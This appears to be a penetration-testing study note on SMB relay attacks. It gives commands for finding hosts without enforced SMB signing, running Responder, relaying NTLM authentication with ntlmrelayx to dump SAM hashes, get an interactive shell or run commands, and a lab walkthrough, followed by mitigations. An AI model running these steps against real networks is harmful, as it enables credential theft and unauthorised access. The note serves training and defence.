





#### What?
Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

#### Requirements
1. SMB signing **must be disabled or not enforced** on the target
	-  By default SMB signing is disabled on workstations but is enabled on servers.
2. Relayed user credentials must   be admin on machine for any real value

---
 
#### To identify hosts without SMB Signing: 

```
nmap --script=smb2-security-mode.nse -p445 <IP/CIDR> -Pn  
```

  
LOOKING FOR MESSAGE SIGNING ENABLED BUT NOT  REQUIRED

#### SMB Relay attack steps on identifies target(s)

Step 1 : Responder Configuration - **/usr/share/responder/responder.conf**
SMB = off ; HTTP = off

Step 2 : Run Responder  
`sudo responder -I tun0 -dwP`

Step 3: Set up relay - ntlmrelayx
`sudo ntlmrelayx.py -tf targets.txt -smb2support`
targets.txt contains the target ip(s)

Step 4: An event occurs....
same as LLMNR one

Step 5 (Win): get the local SAM hash dump (**Security Account Manager (SAM) database**)


Other Wins: 
1. `sudo ntlmrelayx.py -tf targets.txt -smb2support -i` : the `-i` gives a interactive shell as opposed to just getting a hash dump![[Pasted image 20251127110558.png]]![[Pasted image 20251127110652.png]] `nc 127.0.0.1 11000`
2. `sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"` : run commands


----

## How I went about it

1. see if smb signing is enabled or not 
   `nmap --script=smb2-security-mode.nse -p445 192.167.138.136 -Pn  `  (Can also put CIDR in place of IP to sweep the whole subnet - 192.167.138.0/24)
   Domain Controller: enabled but required
   
   Machine 1: enabled but not required
   
   Machine 2: enabled but not required
   
3. Make the targets.txt file - put the two machine's IP addresses
4. Change responder config - SMB -> OFF and HTTP -> OFF
5. run responder - `sudo responder -I eth0 -dwPv`
6. Setup ntlmrelay - `sudo ntlmrelayx.py -tf targets.txt -smb2support`
7. Event..........

8. SAM Hash.....  

9. use -i on ntlmrelayx to get a shell on the same event  


   then need to bind using NC......  
   

10. use `-c "whoami"` or anything after `-c` to run a command, which in this case is whoami  


---

## Mitigation

1. *Enable SMB Signing on all devices
	1. Pro: Completely stops the attack
	2. Con: Can cause performace issues with file copies
2. Disable NTLM authentication on networks
	1. Pro: Completely stops the attack
	2. Con: If Kerberos stops working, windows defaults back to NTLM
3. *Account tiering: 
	1. Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
	2. Con: Enforcing the policy may be difficult
4. *Local admin restriction:
	1. Pro: Can prevent a lot of lateral movement
	2. Con: Potential increase in the amount of service desk tickets
